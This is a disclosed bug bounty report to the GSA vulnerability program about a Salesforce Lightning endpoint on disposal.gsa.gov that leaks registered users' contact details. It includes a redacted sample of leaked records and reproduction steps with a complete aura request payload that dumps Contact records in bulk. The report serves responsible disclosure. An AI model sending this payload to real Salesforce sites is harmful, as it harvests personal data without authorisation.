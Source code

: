 # Registered users contact  information disclosure on salesforce lightning endpoint https://disposal.gsa.gov

## Report Details
- **Report ID**: 1443654
- **URL**: https://hackerone.com/reports/1443654
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-01-07T19:55:02.585Z
- **Disclosed**: 2022-06-06T06:17:37.854Z

## Reporter
- **Username**: rptl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_vdp

## Vulnerability Information
Hi, 

Sample of the Information Disclosure is below.  More records are attached -███

"LastName":"████","FullName__c":"█████████","Id":"██████████","MailingStreet":null,"Active__c":false,"Email__c":null,"LastModifiedBy":{"Id":"00530000009KyDqAAK","Name":"SNA █████████","sobjectType":"User"},"UserPassword__c":null,"Office__c":null,"BIA_Coordinator__c":false,"Contact_Type__c":null,"MailingCountry":null,"Salutation":null,"MailingState":null,"OwnerId":"005t0000002H5O6AAK","RecordType":{"Name__l":"Non-Federal Contact","Id":"████","Name":"Non-Federal Contact","sobjectType":"RecordType"},"Phone":"███"

User","sobjectType":"User"},"AccountId":"█████████","Email":"█████","Subscription_Type__c":null,"THPO_Coordinator__c":false,"MobilePhone":null,"Do_Not_Call__c":false,**Name":"█████████**,"Region__c":null,"LastModifiedDate__f":"5/12/2019 8:49 AM","CreatedById":"005t0000001FpB7AAK","Subscriber__c":false,"State__c":null,"CreatedBy":{"Id":"005t0000001FpB7AAK","Name":"Property Disposal Site Guest User","sobjectType":"User"},"Section_7_Coordinator__c":false,"Environmental_Assessor__c":false,"MailingCity":null,"Salutation__l":null,"CreatedDate__f":"1/24/2018 1:22 AM","Comments__c":null,"CreatedDate":"2018-01-24T06:22:57.000Z","Division__c":null,"LastName":"████","FullName__c":"████"


## Steps to Reproduce -

1) Create user account on https://disposal.gsa.gov

2) Complete to account verification process.

3) After login, visit the burp history and look for any any POST request having "/s/sfsites/aura" kind of request.

4) Use the POST request like this █████ in repeater and modify "message" parameter as below and leave remaining aura.context and aura.token parameters as it is.

message={"actions":[{"id":"261;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"Contact","pageSize":1000,"currentPage":1,"getCount":true,"layoutType":"FULL","enableRowActions":true,"useTimeout":false}}]}

5) contact details of users will be returned by the endpoint.

## Impact

Information disclosure.

## Attachments
No attachments
